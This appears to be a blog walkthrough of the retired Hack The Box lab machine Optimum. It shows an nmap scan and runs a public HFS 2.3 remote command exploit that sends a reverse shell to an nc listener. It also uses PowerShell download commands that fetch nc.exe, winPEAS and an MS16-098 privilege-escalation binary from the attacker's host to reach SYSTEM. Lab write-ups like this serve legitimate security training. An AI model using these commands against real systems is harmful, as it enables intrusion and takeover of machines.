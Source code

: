 ```yaml
---
layout: post
title:  "HTB-Optimum"
date:   2020-02-17 00:01:57 +0000
categories: HTB-Walkthrough
---
```


![optimum](/assets/img/optimum.png)

Optimum is another OSCP-like box from the HTB 'retired' archive.


`nmap -sV -Pn --min-rate 10000 10.10.10.8 |tee -a opt.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 11:51 EST
Nmap scan report for 10.10.10.8
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

`searchsploit hfs 2.3`

```

----------------------------------------------------- ----------------------------------
 Exploit Title                                       |  Path
                                                     | (/opt/exploitdb/)
----------------------------------------------------- ----------------------------------
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary F | exploits/multiple/remote/30850.tx
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Comman | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remo | exploits/windows/webapps/34852.tx
----------------------------------------------------- ----------------------------------

```

We'll check out the python script, `searchsploit -m 39161.py` will copy the exploit to the pwd.
...looks promising...

```

python 39161.py 10.10.10.8 80

```

we get user shell...to our nc listener on port 443.

```

root@kali:~/HTB/retired/optimum# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.8] 49172
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

31/01/2020  03:52 ��    <DIR>          .
31/01/2020  03:52 ��    <DIR>          ..
31/01/2020  03:21 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               3 Dir(s)  31.898.783.744 bytes free

C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0xxxxxxxxxxxxxxxxxxxxxx73

```

#########################

User flag down, now we need to privesc to get the root.txt flag.

use `powershell iwr -uri http://10.10.14.19/nc.exe -outfile .\nc.exe`
do the same for winPEAS.bat

run `winPEAS.bat > enum.txt` then send enum.txt via nc.

do `systeminfo`
copy output and paste to kali machine.

try [winddows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

The resulting output is voluminous, so I won't paste it all here...
I selected ms16-098 and downloaded the exploit from github...

served it with `python3 -m http.server 80`
I used the IWR (Invoke-WebRequest)powershell command to move the file into my boo folder on the target.

```

C:\boo>powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe
powershell iwr -uri http://10.10.14.19/bfill.exe -outfile .\b.exe

```

So just run it....

```

C:\boo>c:\boo\b.exe
c:\boo\b.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\boo>whoami
whoami
nt authority\system

```

From here we can just grab the root.txt flag...

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxxed

```

:)



